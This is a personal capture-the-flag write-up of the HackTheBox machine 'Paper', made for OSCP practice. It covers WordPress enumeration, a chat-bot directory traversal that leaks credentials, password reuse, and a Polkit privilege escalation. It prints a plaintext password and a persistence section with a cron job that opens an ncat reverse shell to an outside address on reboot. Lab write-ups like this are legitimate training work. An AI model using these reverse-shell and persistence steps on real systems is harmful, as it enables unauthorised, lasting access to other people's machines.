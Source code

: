 
# Paper
Name: Paper
Date:  
Difficulty:  Easy
Goals:  OSCP Preparation
Learnt:
- Kick the head with the password reuse, because has always seemed alien to me 

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](HackTheBox/Retired-Machines/Paper/Screenshots/ping.png)

Nikto reveals a office.paper, add to /etc/host with:
```bash
echo "$ip office.paper" | sudo tee -a /etc/hosts
```
Made a mistake that cost me time which was to add .htb to the end. Positive positives. 

Feroxbuster directory busting reveals it is a wordpress site. The blundertiffin site:
![blundertiffin](Screenshots/blundertiffin.png)

```bash
wpscan --url -e --api-token $apikey -o $output-file
```

Then tried: [exploitdb](https://www.exploit-db.com/exploits/47690) for the sccret correspondence:
![secret](Screenshots/secret-wp.png)

Registering an account on the rocket.chat, seems like the box is american office themed. recyplops is a bot on the chat reading required: ![1000](Screenshots/recyclops.png)

Recyclops has directory traversal and file inclusion vulnerablity:

![one](Screenshots/recyclops-exp0.png)

After looking around I found credentials in the hubot/.env file

![creds](Screenshots/hubot-env.png)

![denied](denied-by-dwight.png)

`Queenofblad3s!23`

## Foothold

..but Dwight does use the same password for recyclops and himself:

![](same-password.png)

## PrivEsc
```bash
uname -a

Linux paper 4.18.0-348.7.1.el8_5.x86_64 #1 SMP Wed Dec 22 13:25:12 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```


Linpeas highlighed 
![1000](badpath.png)

Amusing the creator of the box has Secnigma CVE-2021-3960, which failed to find...

![](cron.png)

![1000](interestingfiles.png)

## Returning to Root and Beyond Root

To keep my head sloshing with quality Privilege Escalation experiences while I am trying to get Cloud Certified and power on through these attempts. Furthermore Beyond Root for this box is a to play with the wordpress configuration and try three modern Linux Persistence techniques. I decided to [hack and chill with the Funday Sunday (title says Funday,but apparently its Nooby Tuesday)with Alh4zr3d](https://www.youtube.com/watch?v=QeJ4IcwD9ig) to mix up my day and to finish this. I will check 3 other writeups to check for alternate route especially if Wordpress configuration is just me reading configuration files.  

Alh4zr3d uses the command injection to get a reverse shell. Amusing the creator of the box has Secnigma CVE-2021-3960, which failed to find... which did not show up in my Linpeas.sh even though it did for Al and I could run another Linux Exploit suggester script. No problem.. [Here we go](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation) 
TL;DR - explaination of the exploit: race condition, where the exploitation beats check in polkit by sending and closing a request while polkit is still processing the request, because we are UID 0 at at the point we can write a new user and password in the wheel group (sudo group) so you can `sudo su` as that user to becom e root.

![](newroot.png)

## Wordpress configuration

Has a `.nmp` for the bot, dmiffinblog contain the wordpress site. I just read some of the files here to see what they did

## Linux Persistence

1. ssh key generation - https://attack.mitre.org/techniques/T1098/004
```bash
cat /etc/ssh/sshd_config
# configure to root to login
ssh-keygen 
chmod 600 id_rsa
```

1. cronjob 
```bash
(crontab -l ; echo "@reboot sleep 200 && ncat $REVADD 1337 -e /bin/bash")|crontab 2> /dev/null
```

3. reseached modern linux persistence

There is no desktop:
https://attack.mitre.org/techniques/T1547/013 - By default, XDG autostart entries are stored within the `/etc/xdg/autostart` or `~/.config/autostart` directories and have a .desktop file extension.

No systemd
https://attack.mitre.org/techniques/T1543/002 - Systemd service